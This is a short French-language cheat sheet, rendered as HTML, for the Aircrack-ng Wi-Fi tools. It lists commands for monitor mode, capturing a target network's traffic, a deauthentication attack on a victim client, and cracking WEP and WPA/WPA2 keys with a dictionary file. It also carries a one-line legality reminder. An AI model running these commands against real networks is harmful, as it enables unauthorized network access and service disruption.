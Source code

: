 <!DOCTYPE html []>
<html>
  <head>
    <meta charset="UTF-8" />
    <meta name="author" content="MarkdownViewer++" />
    
  </head>
  <body>
    <h1 id="aircrack-ng-cheat-sheet">Aircrack-ng Cheat Sheet</h1>
    <h2 id="prerequis">Prérequis</h2>
    <ul>
      <li>Carte réseau supportant le mode moniteur et l'injection de paquets.</li>
      <li>Aircrack-ng installé sur votre système.</li>
    </ul>
    <h2 id="commandes-de-base">Commandes de base</h2>
    <h3 id="verifier-les-interfaces-reseau">Vérifier les interfaces réseau</h3>
    <pre>
      <code>airmon-ng
</code>
    </pre>
    <h3 id="passer-une-interface-en-mode-moniteur">Passer une interface en mode moniteur</h3>
    <pre>
      <code>airmon-ng start [interface]
</code>
    </pre>
    <h3 id="arreter-le-mode-moniteur">Arrêter le mode moniteur</h3>
    <pre>
      <code>airmon-ng stop [interface moniteur]
</code>
    </pre>
    <h3 id="lister-les-reseaux-wi-fi-disponibles">Lister les réseaux Wi-Fi disponibles</h3>
    <pre>
      <code>airodump-ng [interface moniteur]
</code>
    </pre>
    <h3 id="cibler-un-reseau-pour-la-capture">Cibler un réseau pour la capture</h3>
    <pre>
      <code>airodump-ng --bssid [BSSID du réseau] -c [canal] --write [nom du fichier de sortie] [interface moniteur]
</code>
    </pre>
    <h3 id="lancer-une-attaque-de-desauthentification">Lancer une attaque de désauthentification</h3>
    <pre>
      <code>aireplay-ng --deauth [nombre de paquets] -a [BSSID du routeur] -c [BSSID de la victime] [interface moniteur]
</code>
    </pre>
    <h3 id="craquer-une-cle-wep">Craquer une clé WEP</h3>
    <pre>
      <code>aircrack-ng -a 1 -b [BSSID du réseau] [fichier de capture]
</code>
    </pre>
    <h3 id="craquer-une-cle-wpawpa2-avec-un-fichier-de-dictionnaire">Craquer une clé WPA/WPA2 avec un fichier de dictionnaire</h3>
    <pre>
      <code>aircrack-ng -a 2 -b [BSSID du réseau] -w [chemin du fichier de dictionnaire] [fichier de capture]
</code>
    </pre>
    <h2 id="astuces">Astuces</h2>
    <ul>
      <li>Toujours utiliser Aircrack-ng dans un cadre légal. L'accès non autorisé à des réseaux est illégal.</li>
      <li>La qualité et la taille du fichier de dictionnaire peuvent grandement affecter le temps nécessaire pour craquer une clé WPA/WPA2.</li>
      <li>Pour augmenter les chances de succès lors de l'attaque de désauthentification, assurez-vous d'être physiquement proche du réseau cible.</li>
    </ul>
  </body>
</html>
